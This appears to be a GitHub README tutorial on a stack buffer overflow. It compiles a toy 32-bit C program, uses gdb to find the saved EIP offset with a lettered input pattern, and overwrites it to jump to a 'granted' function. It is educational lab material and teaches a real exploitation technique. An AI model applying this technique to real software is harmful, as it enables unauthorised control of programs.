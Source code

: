 # buffer_overflow_simulation
*An article and instruction to perform simple stack overflow vulnerability exploit (For Educational Purposes Only).*

I am going to demonstrate simple buffer overflow attack by using free source like google cloud console.
# STAGE 1 : Preparation
- Open https://console.cloud.google.com/
 ![Google Cloud Console](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20162739.png)
- Sign In using google account.
- Activate cloud shell and use root access :
  ```
  sudo su
  ```
  ![Cloud Shell](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20215016.png)
- Install build-essential, gcc-multilib, and gdb.
  ```
  apt install build-essential gcc-multilib gdb -y
  ```
- Create a simple program using C language with name app.c.  *file attached in this repository, copy + paste it*.
  ```
  nano app.c
  ```
- Compile C program using 32 bit to simplify our simulation by using this command.
  ```
  gcc -g -m32 -no-pie -o app app.c
  ```
- Make a input file name attack.txt.  *file attached in this repository, copy + paste it*.
  ```
  nano attack.txt
  ```
- Test the program by using attack.txt.
  ```
  ./app < attack.txt
  ```
  ![App Testing](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20172856.png?raw=true)
# STAGE 2 : Debugging
- Debug application using gdb.
  ```
  gdb -q app
  ```
- Use command list 1,20 to list source code from line 1 to 20.
  ```
   list 1,20
  ```
- Pause the process at line 9 to analyze memory after string is being input with command.
  ```
  break 9
  ```
- run application, it will reach break point 1 (line 9).
  ```
  run < attack.txt
  ```
  ![Break point](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20173427.png?raw=true)
- Get detail information about stack memory.
  ```
  info reg
  ```
  ![Info Reg](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20175330.png?raw=true)
- The most important information here is ESP and EIP register.
- The register ‘ESP’ is used to point to the next item on the stack and is referred to as the ‘stack pointer’.
- EIP is a register in x86 architectures (32bit). It holds the "Extended Instruction Pointer" for the stack. In other words, it tells the computer where to go next to execute the next command and controls the flow of a program.
- Open table of stack memory, Our mission is to find where EIP located in this memory table.
  ```
  x/12x $esp
  ```
  ![Stack Memory](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20175556.png?raw=true)
- By knowing the location of EIP, we can determine where to put our payload to take control next execution command.
- Now we test by changing the input from AAAA to AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ
- Close gdb
  ```
  quit
  ```
- Use this command to change the input.
  ```
  bash -c "echo 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ' > attack.txt"
  ```
- Debug application to inspect the memory.
  ```
  gdb -q app
  ```
- Set break point to 9.
  ```
  break 9
  ```
- Run application and set input from attack.txt.
  ```
  run < attack.txt
  ```
- When it reaches break point. Dissassable the function to find memory address of granted function.
  ```
  disas main
  ```
- Then open stack memory.
  ```
  x/12x $esp
  ```
- Continue the process.
  ```
  continue
  ```
  ![EIP](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20212616.png)
# STAGE 3 : Finding
- The result shows segmentation fault error it return the value of 0x47474646 which is the next execution command. It failed to execute because it doesn't link to any process.
- We already know that EIP store value of the next execution command. Which mean 0x47474646 is the value of EIP.
- From the memory table we can find the position of EIP is on 4rd column and second row.
- Because we use alphabet character we can easily conclude that 46 and 47 are F and G respectively.
- Therefore the payload should be placed on FFGG
# STAGE 4 : Creating Payload
- We create the payload using python  and  put memory address of granted function in EIP variable. *file attached in this repository, copy + paste it*.
  ```
  nano payload
  ```
- Memory address of granted function is stored in little-endian fashion, the least significant bytes can stay where they are and new digits are added to the right at a higher address.
- Put the payload into file attack.txt
  ```
  python3 payload > attack.txt
   ```
  ![Payload](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20172704.png?raw=true)
- Attack the application using attack.txt.
   ```
  ./app < attack.txt
   ```
- Now we are successfully gain the access by using Buffer Overflow Vulnerability.
  ![Granted](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20172739.png?raw=true)

USE IT WISELY !!!
============
- coded by -> ig : [@hackie.techie](https://instagram.com/hackie.techie/)
